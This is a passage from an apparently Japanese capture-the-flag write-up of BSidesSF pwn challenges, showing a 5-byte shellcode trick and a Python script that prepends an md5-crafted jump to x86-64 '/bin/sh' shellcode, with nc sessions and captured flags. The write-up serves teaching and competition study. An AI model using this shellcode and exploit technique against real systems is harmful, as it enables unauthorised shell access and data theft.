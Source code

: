 Ascii85。

```
thatwaseasy
```

## [Pwn 200] i-am-the-shortest

任意の命令列を実行させることができますが、たった 5 バイトしか送れません。

eax に 5、ebx に 1、esi にフラグが入っているアドレス、edx に 0xff が入っています。少しいじって `write(1, esi, 0xff)` を呼びましょう。

```
$ asm "dec eax; mov ecx, esi; int 0x80;" | nc i-am-the-shortest-6d15ba72.ctf.bsidessf.net  8890
The address of 'flag' is 0xffdb138c
Send your machine code now! Max length = 5 bytes.

FLAG:c9f053110aa0f2d28ed8978e3b03cb01
...
```

```
FLAG:c9f053110aa0f2d28ed8978e3b03cb01
```

## [Pwn 100] hashecute

`(md5(code)) + (code)` を送るとそのまま実行してくれるようです。が、`md5(code)` ごと実行されてしまいます。

最初に `code` まで飛ばしてしまいましょう。

```python
import hashlib
import sys
shellcode = 'jhH\xb8/bin///sPH\x89\xe71\xf6j;X\x99\x0f\x05'
i = 0
while True:
  s = shellcode + str(i)
  h = hashlib.md5(s)
  if h.hexdigest().startswith('eb0e'):
    sys.stdout.write(h.digest() + s)
    break
  i += 1
```

```
$ (python s.py; cat) | nc hashecute-9b16b5b9.ctf.bsidessf.net 2525
Send me stuff!!
cat /home/ctf/flag.txt
FLAG:74b931a6a99f8c7a65a53fb5bc1afe16
```

```
FLAG:74b931a6a99f8c7a65a53fb5bc1afe16
```

## [Pwn 30] easyshell64
